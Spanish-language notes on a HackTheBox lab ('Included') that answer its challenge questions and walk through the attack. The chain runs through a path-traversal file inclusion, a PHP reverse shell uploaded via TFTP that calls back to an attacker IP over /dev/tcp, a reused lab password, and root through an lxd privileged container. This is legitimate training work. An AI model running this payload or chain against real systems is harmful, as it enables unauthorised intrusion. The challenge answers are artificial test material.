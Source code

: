 1)¿Qué servicio se está ejecutando en la máquina de destino a través de UDP?
	tftp

2)¿A qué clase de vulnerabilidad se enfrenta la página web alojada en el puerto 80?
	local file inclusion
	Podemos leer archivos por el path traversal que encontramos

3)¿Cuál es la carpeta del sistema por defecto que utiliza TFTP para almacenar archivos?
	/var/lib/tftpboot/

4)¿Qué archivo interesante se encuentra en la carpeta del servidor web y puede utilizarse para el Movimiento Lateral?
	.htpasswd

5)¿Cuál es el grupo del que forma parte el usuario Mike y que puede ser explotado para la Escalada de Privilegios?
	lxd

6)Cuando utilizamos una imagen para explotar un sistema mediante contenedores, buscamos una distribución muy pequeña. Nuestra favorita para esta tarea tiene nombre de montaña. ¿Cómo se llama esa distribución?
	Alpine
	**Alpine Linux** es una distribución de Linux muy ligera y segura, diseñada para ser pequeña (unos pocos MB) y eficiente.  
	Es muy usada en contenedores Docker por su velocidad, bajo consumo de recursos y simplicidad.  
	Viene con BusyBox y musl libc, lo que la hace ideal para entornos minimalistas o de hacking.

7)¿Qué bandera ponemos al contenedor para que tenga privilegios de root en el sistema anfitrión?
	security.privileged=true

8)Si el sistema de archivos raíz está montado en /mnt en el contenedor, ¿dónde se puede encontrar la bandera raíz en el contenedor después de montar el sistema anfitrión?
	/mnt/root

----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.207.145
nmap -sS -vvv -n -Pn --min-rate 5000 -p- --open 10.129.207.145 -oG allports
nmap -sCV -p80 10.129.207.145 -oN target
```

![[Included2.png]]
![[Included1.png]]
 
*TTL:* Maquina linux por su cercania a 64
*Puertos*
	`80` HTTP apache


### Las preguntas de HTB nos decia que hagamos un escaneo en UDP

```shell
nmap -sU -Pn -n -vvv --top-ports 200 10.129.207.145 -oN udp-scan
```


![[Included6.png]]
*Puertos:*
`68` dhcpc
`69` tftp

------
# [[Whatweb-wappalyzer]]

![[Included3.png]]
![[Included4.png]]
El directorio images no nos da ninguna informacion relevante y el whatweb tampoco

--------
# [[LFI(Local File Inclusion)]]
Entramos a la pagina web
![[Included7.png]]
Vemos lo de file=home.php, asi que vamos a probar un [[Path traversal]]

http://10.129.207.145/?file=../../../../../../../..//etc/hosts

![[Included5.png]]
Podemos ver el contenido del /etc/hosts asi que se es ta produciendo un [[LFI(Local File Inclusion)]]

### Hacemos pruebas para ver si interprea archivos .php

Subimos un archivo test.php con [[tftp]]
```php
<?php echo "Hola"; ?>
```

Para conectarnos al servicio usamos`tftp 10.129.117.155 69` y luego para subir el archivo `put test.php`
![[Included8.png]]

![[Included9.png]]
Como podemos ver se interpreto perfectamente

----------
# [[Reverse shell]]


Creamos el archivo shell.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```

Y lo vamos a subir con [[tftp]]
Para conectarnos al servicio usamos`tftp 10.129.117.155 69` y luego para subir el archivo `put shell.php`
![[Included8.png]]

Y para que se ejecute vamos a leer el archivo con el [[LFI(Local File Inclusion)]]
Esta ruta la sabemos por que es el directorio predeterminado en el cual tftp sube los archivos
http://10.129.117.155/?file=../../../../../../..///var/lib/tftpboot/shell.php
Mientras estamos en escucha con [[nc -nlvp 443]] 

![[Included10.png]]
Y ya estamos adentro como el usuario www-data

-------
# [[Tratamiento de la TTY]]

---------
# Escalada de privilegios al usuario mike 

Listando todos los archivos del directorio con [[ls]] `ls -la` Pudimos ver el archivo oculto de *.htaccess* y al catearlo vemos que nos da un pregunto usuario y contraseña

![[Included11.png]]
mike:Sheffield19
Con el comando `su mike` y ponemos la contraseña *Sheffield19*
![[Included12.png]]
Y ya somos el usuario mike

----------
# Escalada al usuario root con [[Lxd contenedor con montura]]

[Articulo hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html)

Para descargar la imagen y crearla en nuestra maquina
```
git clone https://github.com/saghul/lxd-alpine-builder  
cd lxd-alpine-builder  
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine  
sudo ./build-alpine -a i686
```
Despues nos pusimos en escucha con [[python3 -m http.server]] . Y desde la maquina victima con `wget 10.10.14.8:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz` descargamos la imagen

#### Ahora para levantar el contenedor:
```shell
lxc image import ./alpine*.tar.gz --alias myimage  
lxd init  
lxc init myimage mycontainer -c security.privileged=true  
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true  
lxc start mycontainer  
lxc exec mycontainer /bin/bash
```
Una vez hecho esto ya podemos ya podemos catear las flags por que somos root

![[Included13.png]]


-------------
# Creditos

[Writeup de 13xch](https://medium.com/infosec-watchtower/hackthebox-write-up-included-8e54530c622c)